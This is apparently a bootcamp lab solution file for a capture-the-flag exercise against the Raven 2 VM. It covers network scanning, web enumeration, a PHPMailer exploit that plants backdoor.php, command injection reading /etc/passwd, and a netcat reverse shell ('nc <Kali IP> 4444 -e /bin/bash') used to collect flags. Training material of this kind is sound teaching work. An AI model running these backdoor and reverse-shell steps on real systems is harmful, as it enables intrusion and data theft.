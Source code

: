 ## Solutions for Target 2

#### Attacking Target 2

This solution file details the steps for  capturing the first three flags on Target 2.

1. Use Nmap to identify the IP address of Target 2.

    ```bash
    # Reveals Target 2 at `192.168.1.115`
    $ nmap -sP 192.168.1.1-255
    ```

2. Use Nmap to document all exposed ports and services at this IP address.

    ```bash
    # Reveals Target 2 at `192.168.1.115`
    $ nmap -sV 192.168.1.115
    ```

3. Enumerate the web server with `nikto`.

     - **Hint**: Run: `nikto -C all -h <URL>`.
     - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?

    ```bash
    # Generate a list of discovered URLs
    # Note that this discovers `wordpress` directories
    $ nikto -C all -h http://192.168.1.115
    ```

4. Perform a more in-depth enumeration with `gobuster`.
 
    ```bash
    $ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115
    ```
 
   Navigating to `http://192.168.1.115/vendor` reveals a `flag1.txt` in the directory.

5. Use “searchsploit” to find any known vulnerabilities associated with the programs found in Step #4.
    
    - Run: `searchsploit phpmailer` 

6. Use the `exploit.sh` script to exploit this vulnerability by opening an ncat connection to your Kali VM.
    
    - The easiest way to get the script onto the Kali VM is to use a web text/paste service like https://pastebin.com to copy the script from your local machine to the web, and then retrieve it from the Kali Machine.

    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.

    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute **command injection attacks**.

    - Navigate to `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`.

      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`

    - Next, use the backdoor to open a shell session on the target.

      - On your **Kali** VM, start a netcat listener with `nc -lnvp 4444`.
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

    **Solution**

      - First, edit line 4 in `exploit.sh` to read: `TARGET=http://192.168.1.115/contact.php`.

      - Then, execute the script: `bash exploit.sh`

      - Next, start an ncat listener with `nc -lvp 4444`

      - Finally, navigate to the following URL in the browser: `http://192.168.1.115?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

    ```bash
    $ ls /var/www
    flag2.txt
    ```

8. Next, find a flag in the WordPress uploads directory.
     
     - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

      ```bash
      $ find /var/www/html -type f -iname 'flag*'
      /var/www/html/wp-content/uploads/2018/11/flag3.txt
      ```

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult. For now, move on to completing a report about Target 2.

An complete online solution guide for Target 2 is available [here.](https://hackso.me/raven-2-walkthrough/).

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
